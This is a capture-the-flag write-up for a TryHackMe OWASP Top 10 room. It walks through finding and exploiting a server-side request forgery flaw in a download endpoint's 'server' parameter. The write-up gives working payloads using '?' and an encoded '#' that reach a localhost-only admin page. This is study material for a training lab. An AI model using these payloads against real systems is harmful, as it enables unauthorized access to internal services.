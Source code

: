 ```yaml
---
description: >-
  This challenge deals with a Server-Side Request Forgery (SSRF) vulnerability
  that is present in the server query parameter.
---
```


# OWASP Top 10 - 2021 (task 22)

{% embed url="https://tryhackme.com/room/owasptop102021" %}

_**Extra practice challenge: "Going the extra mile"**_

> There's a way to use SSRF to gain access to the site's admin area. Can you find it?

A **GET** request is sent to the following href to download the resume:

`/download?server=secure-file-storage.com:8087&id=75482342`

General format of the HTTP URL:

`http://<url>:8087/download?server=<server_addr>&id=<file_id>`

### Enumeration

1. Visiting the following URL [http://10.10.106.252:8087/admin](http://10.10.106.252:8087/admin) (GET request), presented me with a webpage displaying the following message:&#x20;

_<mark style="color:red;">Admin interface only available from localhost!!!</mark>_

This tells us that the admin page can only be accessed from within the machine itself. The goal now will be to find a SSRF vulnerability to redirect the request to the localhost admin URL instead.

2. I have noticed that an error messages with snippets of the code-base (sensitive information) is shown when a non-integer value is provided to the `id` query parameter via a GET request.&#x20;

For example, when the value `t` is provided, the following info and code snippet is shown in the error message.&#x20;

A GET request to `http://<url>:8087/download?server=&id=t` gives the following error details:

_<mark style="color:red;">ValueError: invalid literal for int() with base 10: 't'</mark>_

```python
def download():
    file_id = request.args.get('id','')
    server = request.args.get('server','')

    if file_id!='':
        filename = str(int(file_id)) + '.pdf'
        
        response_buf = BytesIO()
        crl = pycurl.Curl()
        crl.setopt(crl.URL, server + '/public-docs-k057230990384293/' + filename)
        crl.setopt(crl.WRITEDATA, response_buf)
```

From the code snippet in the error message, I have discovered that the final HTTP URL where the request is being sent is generated in the following format:

```python
server + '/public-docs-k057230990384293/' + filename
```

Where the `server` query parameter is taken directly from the _**server**_ query parameter value. The _**id**_ query parameter value is used directly to generate the final URL value, however, it does not have a direct exploitable impact. This tells us that we can potentially control the final URL where the GET request is being sent.

Thus, the goal is to craft a payload to the _**server**_ query parameter to forge a request to the localhost admin URL: `http://localhost:8087/admin` - allowing us to retrieve the admin page content.

### Payload to the `server` query parameter

The placeholder `<url>`will be used as a general value. As detailed from part 1 in the _**Enumeration**_ section, the goal will be to redirect the **GET** request to the localhost admin page at port 8087 - placeholder value should be replaced with `localhost:8087/admin`. &#x20;

1. Null terminator/byte (`%00`)

`http://<url>:8087/download?server=<url>%2500&id=1`

The input to the _**id**_ parameter will be a random integer value. While the value to the _**server**_ query parameter will be the target URL with the `%00`character at the end. The goal is to forcefully terminate the string value, to have the server ignore the part after the input.

`<url>%00/public-docs-k057230990384293/<filename>` _**->**_ `<url>`

However, this method does not work, and produces the following error message:

_<mark style="color:red;">ValueError: embedded null byte</mark>_



2. `?` (query symbol) (<mark style="color:green;">**✔ Working method**</mark>)

Inserting a ? character at the end of the server query parameter value will trick the server to treat the rest of the input (`'/public-docs-k057230990384293/' + filename`) as a query. Thus, effectively ignoring its values, allowing an attacker to fully control the server address.

A **GET** request to the following payload allows us to send a request to the **/admin** path from within the server localhost, bypassing the restriction&#x73;**.**

`http://<target_url>:8087/download?server=localhost:8087/admin?&id=1`



3. `#`(URI fragment) (<mark style="color:green;">**✔ Working method**</mark>)

{% embed url="https://developer.mozilla.org/en-US/docs/Web/URI/Reference/Fragment" %}

{% embed url="https://support.google.com/richmedia/answer/190941?hl=en" %}

Similar to the query symbol, inserting an URI fragment symbol (`#`) at the end of the server query parameter value will trick the server to treat the rest of the input as a fragment.

First attempt of payload:

`http://<target_url>:8087/download?server=localhost:8087/admin#&id=1`

_\*\*Tested on Google Chrome and Firefox_

Some browsers may remove the section after the hash symbol (`#`):

`.../.../admin#&id=1` **->** `.../.../admin`

The final URL causes the id query parameter to be removed, which gives the following error:

_<mark style="color:red;">No file selected...</mark>_

A fix will be to encode the hash symbol (`%23`):

`.../.../admin%23&id=1` **->** `.../.../admin#&id=1`

Hence, the final **GET** request URL is:

`http://<target_url>:8087/download?server=localhost:8087/admin%23&id=1`
